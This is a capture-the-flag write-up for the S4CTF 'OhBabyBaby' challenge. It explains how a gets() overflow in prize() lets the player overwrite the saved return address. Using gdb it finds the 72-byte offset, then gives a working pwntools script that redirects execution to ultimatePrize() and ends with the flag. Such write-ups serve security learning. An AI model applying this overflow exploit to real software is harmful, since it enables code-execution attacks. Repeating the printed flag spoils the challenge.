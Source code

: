 # OhBabyBaby
Thanks to y3noor for clearing queries

## Description
If you don't solve this, Dennis Ritchie will be really heartbroken :(
nc 185.14.184.242 12990

## Files provided
A zip containing [binary](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/ohbabybaby) and [source](https://gist.github.com/TheRealOddCoder/dda04fa1d757f91bb0d5ff7f0c1fa673) is provided

## Writeup
Looking at the source, we can see there is a **ultimatePrize()** that reads **flag.txt**. But this function is never called.
Also, there is **gets()** in **prize()**.

Runnning the binary, we encounter a two scanf() and the memory location of the flag function is displayed. So, to get the flag we need to overflow the buffer in prize() and **rewrite the instruction pointer (rip)** to point to the address of ultimatePrize().
<br/><br/>


![image](https://user-images.githubusercontent.com/42334661/115984164-7e53e880-a55a-11eb-96c8-45c2407a1ba4.png)
<br/><br/>

The buffer size is 64. In gdb, I passed 80 bytes of 'A' to check for segmentation fault. We see a sigsegv and **rip is overwritten** 
<br/><br/>

![sigsegv](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv.png)
<br/><br/>

both **$rbp** and **$rip** are overwritten with **8 bytes** and **6 bytes** respectively. Of the **80 bytes** sent, `14bytes` are overwritten in `rbp` and `rip` meaning that buffer takes up `66 bytes`. Of the `66 bytes`, **2 bytes** are used up in *scanf()*.
<br/><br/>
This is what I thought initially.
- buffer --> 64+2 bytes
- $rbp --> 8 bytes $rip --> 6 bytes

But boy I was wrong. 
<br/>
After a few trial and error, **$rip was overwritten** by anything after 72 bytes of data. That is,
- buffer --> 64 bytes
- $rbp --> 8 bytes
<br/>
To check this, I passed in *72 bytes of 'A' and 2 bytes of 'B'*. And rip was overwritten by *'BB'* (the 73rd and 74th byte in input)


![sigsev](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/sigsegv_2.png)
<br/><br/>

## Payload
Let's construct a payload with `pwntools` locally
<br/><br/>

```
from pwn import *

bof = b"A"*72
conn = process('./ohbabybaby')
data = conn.recvuntil(".....................................Tap Tap to see your prize!!....................................\n").decode("utf-8")
print(data)
conn.sendline("A")   # so that we can see the address of ultimatePrize
data = conn.recvuntil("............................................Did you enjoy?..........................................").decode("utf-8")
conn.recvuntil("\n")
print(data)
address = "0x"+data.split("0x")[1][:12]
print(address)
conn.recvline()
#conn.sendline(b"A"*72 + p64(int(address, 16)))

try:
    conn.sendline(bof + p64(int(address, 16)))
    print(conn.recvall().decode("utf-8"))
except:
    print("error!\n")
    print(conn.recvall().decode("utf-8"))
```
<br/><br/>

![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/flag.png)
<br/><br/>
The flag function is accessed!!
Modifying the code to connect to remote address, we get the flag
<br/><br/>
![flag](https://github.com/TheRealOddCoder/writeups2021/blob/main/S4CTF/ohbabybaby/Screeenshots/Screenshot%20from%202021-04-25%2001-30-36.png)
<br/><br/>

## Flag
S4CTF{W311_D0n3_f0r_th3_3xpl0it_Vuln3rability_i5_aws0m3!!}
